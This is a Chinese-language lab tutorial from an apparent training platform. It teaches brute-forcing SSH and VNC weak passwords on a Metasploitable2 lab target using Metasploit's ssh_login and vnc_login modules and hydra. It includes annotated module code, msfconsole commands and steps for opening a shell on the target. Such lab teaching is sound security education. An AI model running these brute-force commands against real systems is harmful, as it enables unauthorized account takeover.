

# 暴力破解 SSH 及 VNC 远程连接

## 一、实验简介

### 1.1 实验介绍

本实验主要介绍针对弱密码服务的攻击。如果一个网络服务需要授权才可以访问，但授权的方式是使用用户名和密码，那么弱密码漏洞就是常见的攻击目标。通常这一类的漏洞是由用户配置造成的，使用了类似 `123456` 这样的密码。

针对弱密码的攻击最简单直接的就是使用字典进行暴力破解，字典是关键，使用字典中提供的用户名及密码依次尝试，直到可以成功连接为止。

在本实验中，我们依旧基于实验楼环境下 Kali 的 MSF 终端，对渗透目标主机 Metasploitable2 的 SSH 服务和 VNC 服务进行暴力破解。

**注意：实验用的云主机因为配置成本较高，会限制次数，每个实验不超过6次**

### 1.2 实验知识点

本实验使用的环境为 Kali Linux 操作系统，一些基本的 Linux 操作命令是必须要熟悉。本实验中，我们将会涉及到的知识点有：

- Linux 基本操作命令
- MSF 终端下的攻击流程
- 暴力破解字典文件的理解
- 暴力破解 SSH 服务
- 暴力破解脚本解析
- 暴力破解 VNC 服务

### 1.3 实验环境

实验楼采用的实验环境包含两台虚拟机，分别是攻击机和靶机：

攻击机：Kali Linux 2.0 虚拟机，主机名是 kali，IP 地址为 192.168.122.101，默认用户名密码为 root/toor
靶机：Metasploitable2 虚拟机，主机名是 target，IP 地址为 192.168.122.102，默认用户密码为 msfadmin/msfadmin

本实验在实验楼的环境下进行。在实验楼的环境中，采用的实验环境包含两台虚拟机，分别是攻击机和靶机，攻击机和靶机的账户和密码参数分别如下：

| 主机   | 主机名            | 用户名     | 密码       |
| ------ | ----------------- | ---------- | ---------- |
| 攻击机 | `Kali Linux 2.0`  | `root`     | `toor`     |
| 靶机   | `Metasploitable2` | `msfadmin` | `msfadmin` |


## 二、环境启动

### 2.1 启动主机环境

本实验的实验环境由实验楼提供，宿主机为 Ubuntu，宿主机上安装有两台虚拟机。它们分别为 Kali Linux 虚拟机和 Metasploitable2 目标靶机。本实验所有的操作，都是在 Kali Linux 下进行的。

首先我们在实验楼宿主机上启动 Kali Linux 和 Metasploitable2，输入如下命令启动攻击机 Kali 和目标靶机：

```
# 启动 Kali Linux 攻击机
sudo virsh start Kali

# 启动目标靶机 Metasploitable2
sudo virsh start Metasploitable2

```

使用 `ping` 命令可以知道 Kali Linux 是否已经完全启动成功，当宿主机 Ubuntn 和 Kali Linux 两台主机能够 ping 通的时候，说明 Kali 已经启动。此时输入命令使用 ssh 进行连接：

```
# 连接 Kali Linux，密码为 toor
ssh root@Kali
```


## 三、利用 SSH 弱密码进行暴力破解

### 3.1 密码字典文件及攻击脚本

暴力破解最重要的要素是密码文件，密码文件通常包含目标系统最可能出现的用户名及密码对，暴力破解 SSH 的原理就是从密码文件中读取一个个用户名和密码对尝试 SSH 登录，如果失败则尝试下一个，如果成功则将匹配的信息打印出来。

首先，我们看下字典文件中的内容，文件的位置在 `/usr/share/metasploit-framework/data/wordlists/`，进入到这个文件夹可以看到有很多个字典：
```
$ cd /usr/share/metasploit-framework/data/wordlists/
$ ls
```




我们这里选择 `piata_ssh_userpass.txt`，主要原因是这个文件的大小还算合适，不至于运行太长时间，并且包含了常见的弱密码类型。

查看字典文件长度（有917行）和内容（每行为两个单词，前一个为用户名，后一个为密码）：


此次使用的攻击脚本文件为 `/usr/share/metasploit-framework/modules/auxiliary/scanner/ssh/ssh_login.rb`，注意这个目录下还有很多其他 SSH 攻击的脚本，感兴趣可以查看下。查看并分析攻击脚本的核心代码内容：

```
...


# 初始化模块，包含名称，描述，作者和对应的漏洞 CVE 索引（弱密码漏洞）
  def initialize
    super(
      'Name'        => 'SSH Login Check Scanner',
      'Description' => %q{
        This module will test ssh logins on a range of machines and
        report successful logins.  If you have loaded a database plugin
        and connected to a database this module will record successful
        logins and hosts so you can track your access.
      },
      'Author'      => ['todb'],
      'References'     =>
        [
          [ 'CVE', '1999-0502'] # Weak password
        ],
      'License'     => MSF_LICENSE
    )

# 配置参数，包含默认的参数设置为 22 号端口
    register_options(
      [
        Opt::RPORT(22)
      ], self.class
    )

...

# 配置攻击会话
  def session_setup(result, ssh_socket)
  	...
  end

# 执行攻击
  def run_host(ip)
    @ip = ip
    print_brute :ip => ip, :msg => "Starting bruteforce"

    # 提取配置的字典文件等参数，用来进行暴力破解的用户名和密码信息
    cred_collection = Metasploit::Framework::CredentialCollection.new(
      blank_passwords: datastore['BLANK_PASSWORDS'],
      pass_file: datastore['PASS_FILE'],
      password: datastore['PASSWORD'],
      user_file: datastore['USER_FILE'],
      userpass_file: datastore['USERPASS_FILE'],
      username: datastore['USERNAME'],
      user_as_pass: datastore['USER_AS_PASS'],
    )

    cred_collection = prepend_db_passwords(cred_collection)

    # 创建 scanner 对象，Scanner 对象将用作控制循环尝试连接的暴力破解过程
    scanner = Metasploit::Framework::LoginScanner::SSH.new(
      host: ip,
      port: rport,
      cred_details: cred_collection,
      proxies: datastore['Proxies'],
      stop_on_success: datastore['STOP_ON_SUCCESS'],
      bruteforce_speed: datastore['BRUTEFORCE_SPEED'],
      connection_timeout: datastore['SSH_TIMEOUT'],
      framework: framework,
      framework_module: self,
    )

    scanner.verbosity = :debug if datastore['SSH_DEBUG']

	# 进入攻击程序的主循环，有多个判断，主循环中会遍历所有的可能的用户名及密码（来自先前设置的字典文件参数）
    scanner.scan! do |result|
      credential_data = result.to_h
      credential_data.merge!(
          module_fullname: self.fullname,
          workspace_id: myworkspace_id
      )
      # 判断返回值的各种情况
      case result.status
      
      # 如果用户名及密码匹配成功，则打印成功信息，并调用 session_setup 建立 SSH 连接，然后继续循环
      when Metasploit::Model::Login::Status::SUCCESSFUL
        print_brute :level => :good, :ip => ip, :msg => "Success: '#{result.credential}' '#{result.proof.to_s.gsub(/[\r\n\e\b\a]/, ' ')}'"
        credential_core = create_credential(credential_data)
        credential_data[:core] = credential_core
        create_credential_login(credential_data)
        session_setup(result, scanner.ssh_socket)
        :next_user
      
      # 如果目标服务器无法连接，则关闭连接接口，直接退出程序
      when Metasploit::Model::Login::Status::UNABLE_TO_CONNECT
        if datastore['VERBOSE']
          print_brute :level => :verror, :ip => ip, :msg => "Could not connect: #{result.proof}"
        end
        scanner.ssh_socket.close if scanner.ssh_socket && !scanner.ssh_socket.closed?
        invalidate_login(credential_data)
        :abort
      
      # 如果本次尝试的用户名及密码错误则打印相关信息并进行标识
      when Metasploit::Model::Login::Status::INCORRECT
        if datastore['VERBOSE']
          print_brute :level => :verror, :ip => ip, :msg => "Failed: '#{result.credential}'"
        end
        invalidate_login(credential_data)
        scanner.ssh_socket.close if scanner.ssh_socket && !scanner.ssh_socket.closed?
      else
        invalidate_login(credential_data)
        scanner.ssh_socket.close if scanner.ssh_socket && !scanner.ssh_socket.closed?
      end
    end
  end

end
```

### 3.2 启动 msfconsole

在 Kali 中执行下面的命令，进入 msfconsole：

```
# 打开终端 MSF

sudo msfconsole
```

### 3.3 使用的攻击模块

在 msfconsole 中执行后续的命令，攻击的逻辑与我们先前的实验完全一致：

1. `use` 命令使用攻击模块
2. `set` 命令配置参数
3. `show options` 查看所有参数
4. `exploit` 执行攻击

本步骤中，我们使用 `use` 命令选择 3.1 中提到的攻击脚本：

```
msf > use auxiliary/scanner/ssh/ssh_login
```

**注意：msfconsole 的提示符中增加了 `ssh_login` 信息。**

### 3.4 配置攻击模块

查看并配置攻击模块必要的参数，此处需要配置的有下面几方面信息：

1. rhosts 目标服务器列表，我们配置为 target
2. userpass_file 使用的密码字典文件，我们使用 metasploit-framework 内置的一个密码文件，在 3.1 中有介绍，大概有900多行，如果使用更大的字典文件，测试的时间将更长
3. verbose 设置为 false，避免输出大量的中间信息

```
msf > set rhosts 192.168.122.102
msf > set userpass_file /usr/share/metasploit-framework/data/wordlists/piata_ssh_userpass.txt
msf > set verbose false
```


### 3.5 暴力破解攻击

最后，查看下配置信息，确认下是否准确：

```
msf > show options
```

开始执行暴力破解，使用的是 `exploit` 命令：


注意：执行时间比较长，我们可以在出现第一次正确信息的时候（大概几分钟）执行 `Ctrl-C` 中断程序，然后继续后续的实验操作。

### 3.6 进入 Shell

暴力破解的时间会很长，但中间会陆续输出一些成功的用户名和密码对，因为靶机上的可以通过 SSH 登录的用户很多，并且都有弱密码，所以会输出多个，为了节约时间，我们可以在输出第一个的时候就直接 `Ctrl-C` 退出后续的暴力破解过程。


当匹配成功的时候，攻击脚本会自动创建一个 SSH 连接会话，我们可以使用 `sessions -i <session_id>` 这个命令将终端切换到会话中。

**注意：session id 可义从攻击过程中的输出信息中看到。**

进入到这个 Shell 中我们就可以执行一系列的命令了：


### 3.7 其他暴力破解的方法

除了上面介绍的使用 msfconsole 执行的攻击方法外，Kali 中还内置了一个暴力破解的工具 Hydra，这个工具也可应用到 SSH 暴力破解的场景中，同样，也是使用密码字典文件进行不断的尝试，在 Kali 的命令行中执行下面的命令可以进行攻击：

```
hydra -C userpass.txt 192.168.122.102 ssh
```

其中 `-C` 指定使用的字典文件，但要求字典中的用户名和密码间使用 `:` 隔开。后面的IP地址是我们的目标靶机，ssh为攻击的服务。

## 四、利用 VNC 弱密码进行暴力破解

### 4.1 攻击脚本

我们在这个实验中使用 vnc 登录暴力破解的脚本 `auxiliary/scanner/vnc/vnc_login`，这个脚本的文件在下面的目录中，实验后的作业有一个是需要大家根据 ssh 实验中的内容理解这个攻击脚本的内容，并能够根据这两个脚本未来可以实现自己的暴力破解脚本：

+ `/usr/share/metasploit-framework/modules/auxiliary/scanner/vnc/vnc_login.rb`


### 4.2 启动 msfconsole

前面的实验中，我们学过如何在 Kali 中执行下面的命令，进入 msfconsole：

```
# 打开终端 MSF
sudo msfconsole
```

### 4.3 配置攻击模块

后续的步骤跟 SSH 实验中非常类似。

选择使用攻击模块：

```
msf > use auxiliary/scanner/vnc/vnc_login
```

配置暴力破解的线程数，线程数越多执行的会越快（当然受限制于当前机器的CPU配置），但配置的线程数越多则越容易被目标主机发现：

```
msf auxiliary(vnc_login) > set THREADS 5
THREADS = > 5
```

配置目标主机 IP 地址：
```
msf auxiliary(vnc_login) > set RHOSTS 192.168.122.102
RHOSTS = > 192.168.122.102
```

执行暴力破解：
```
msf auxiliary(vnc_login) > exploit
```

### 4.4 查看结果

很快 vnc_login 的攻击结果就出来了，因为 vnc 登录没有输入用户名只需要尝试各种常见的弱密码，结果可以看到 vnc 登录的密码为 `password`：


思考：为什么我们没有设置 vnc_login 的 userpass_file 字典文件也可以进行暴力破解攻击？

## 五、总结

### 5.1 总结

在本实验中，我们依旧基于实验楼环境下 Kali 的 MSF 终端，对渗透目标主机 Metasploitable2 的 SSH 服务和 VNC 服务进行暴力破解：

- Linux 基本操作命令
- MSF 终端下的攻击流程
- 暴力破解字典文件的理解
- 暴力破解 SSH 服务
- 暴力破解脚本解析
- 暴力破解 VNC 服务


## 六、课后作业

### 6.1 课后作业

完成以下作业，巩固实验知识：

- 3.7 中的 hydra 是否可以用来进行 VNC 暴力破解？
- 查找 VNC 攻击的脚本并阅读理解，有哪些与 SSH 攻击脚本不同的地方吗？
- 为什么我们没有设置 vnc_login 的 userpass_file 字典文件也可以进行暴力破解攻击？

对于不懂的问题，都可随时在[实验楼问答](https://www.shiyanlou.com/questions)中提出，与老师和同学一起交流。